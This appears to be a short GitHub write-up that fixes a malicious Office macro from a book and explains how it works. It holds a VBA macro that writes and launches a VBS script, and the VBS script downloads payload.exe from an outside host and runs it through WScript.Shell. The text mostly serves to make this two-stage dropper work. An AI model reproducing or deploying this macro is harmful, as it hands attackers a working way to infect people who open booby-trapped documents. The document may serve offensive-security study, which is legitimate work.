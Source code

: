  In the book the original macro code doesn't work for several reasons. Below I go more into detail on how this macro works. 
 
 Dim is used to specify a variable and what type it is. PayLoadFile is an integer because the FreeFile function called earlier is used to find
 a available file name number and use that to open the file. https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/freefile-function
 
 Reading through Microsofts guide on Open call. We can see that TextFile is invalid in line 6, you either have to give a number such as #3 or put in
 PayloadFile which will be a numeral thanks to FreeFile function.
 
 https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/open-statement
 
 Another issue I had was with the VBS script below. You will need to put double quotes around quotes in the actual code. This is
 because the VBA Macro won't include the quotes when sending it to the file. for example myPath, "\" should be mypath, ""\"". 

VBA Macro

Sub WritePayload()
  Dim PayLoadFile As Integer
  Dim FilePath As String
  FilePath = "C:\temp\payload.vbs"
  PayloadFile = FreeFile
  Open FilePath For Output As TextFile
  Print #PayLoadFile, "VBS Script Line 1"
  Print #PayLoadFile, " VBS Script Line 2"
  Print #PayLoadFile, " VBS Script Line 3"
  Print #PayLoadFile, " VBS Script Line 4"
  Close PayloadFile
  Shell "wscript c:\temp\payload.vbs"
End Sub

VBS Script

What it does is create an object download the file. and then use wsshell to execute it. Overall the macro creates the vbs, and creates the script. 
Macro executes script in shell. Our second stage takes over which is seen in the download of payload.exe in the vbs script, and execution through wsshell

HTTPDownload "http://www.wherever.com/files/payload.exe", "C:\temp"
Sub HTTPDownload( myURL, myPath )
  Dim i, objFile, objFSO, objHTTP, strFile, strMsg
  Const ForReading = 1, ForWriting = 2, ForAppending = 8
  Set objFSO = CreateObject( "Scripting.FileSystemObject" )
  If objFSO.FolderExists( myPath ) Then
    strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev(myURL, "/" ) + 1 ) )
  ElseIf objFSO.FolderExists( Left( myPath, InStrRev( myPath, "\") - 1 ) ) Then
    strFile = myPath
  End If
  Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
  Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
  objHTTP.Open "GET", myURL, False
  objHTTP.Send
  For i = 1 To LenB( objHTTP.ResponseBody )
  objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
  Next
  objFile.Close( )
  Set WshShell = WScript.CreateObject("WScript.Shell")
  WshShell.Run "c:\temp\payload.exe"
End Sub
